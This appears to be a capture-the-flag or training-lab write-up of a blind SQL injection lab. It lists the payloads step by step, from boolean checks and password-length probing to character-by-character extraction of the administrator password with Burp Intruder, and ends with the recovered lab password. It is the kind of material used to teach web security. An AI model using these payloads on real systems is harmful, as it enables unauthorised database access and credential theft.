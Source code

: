 # Blind SQL injection with conditional responses

## Steps:

1. First verify that appending this to the token makes the query return "welcome back"
```
' AND '1'='1
```

2. Now make sure that the wrong SQL query will not return "welcome back" message
```
' AND '1'='2
```

3. Now verify that the user table exists
```
' AND (SELECT '1' FROM users LIMIT 1)='1
```

4. Check for user called administrator
```
' AND (SELECT '1' FROM users WHERE username='administrator')='1
```

5. Check for password length
```
' AND (SELECT '1' FROM users WHERE username='administrator' AND LENGTH(password)>1)='1
```

6. Repeat until you find the length of the password
```
' AND (SELECT '1' FROM users WHERE username='administrator' AND LENGTH(password)>19)='1
```

7. This gives us the length of the password as 20

8. Next payload is
```
EwObBGHeTpbok0Sj' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```
This can only be used in burp suite intruder. Use the intruder to send multiple requests and changing the payload. Also do a grep match to match the response

9. Building password:
```
cwnw5qx9aojomq8n3qxi
```